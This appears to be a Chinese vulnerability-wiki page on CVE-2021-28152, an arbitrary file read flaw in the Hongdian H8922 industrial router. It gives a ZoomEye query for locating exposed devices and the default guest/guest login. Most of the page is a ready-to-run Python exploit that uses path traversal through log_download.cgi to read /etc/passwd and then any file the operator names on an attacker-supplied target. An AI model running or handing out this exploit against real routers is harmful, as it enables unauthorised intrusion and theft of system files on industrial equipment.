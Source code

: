 # 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152

## 漏洞描述

宏电 H8922 后台存在任意文件读取漏洞，低权限用户通过漏洞可以获取任意文件内容

## 漏洞影响

> [!NOTE]
>
> 宏电 H8922 

## ZoomEy

> [!NOTE]
>
> app:"Hongdian H8922 Industrial Router"

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 log_download.cgi 文件中

![](http://wikioss.peiqi.tech/vuln/hd-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用type参数读取文件并下载日志给用户，使用 **../../** 可以跳转根目录读取任意文件

![](http://wikioss.peiqi.tech/vuln/hd-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/log_download.cgi?type=../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                filename = input("\033[35mFilename >>> \033[0m")
                if filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] {} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    filename = '/etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, filename)

```

![](http://wikioss.peiqi.tech/vuln/hd-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
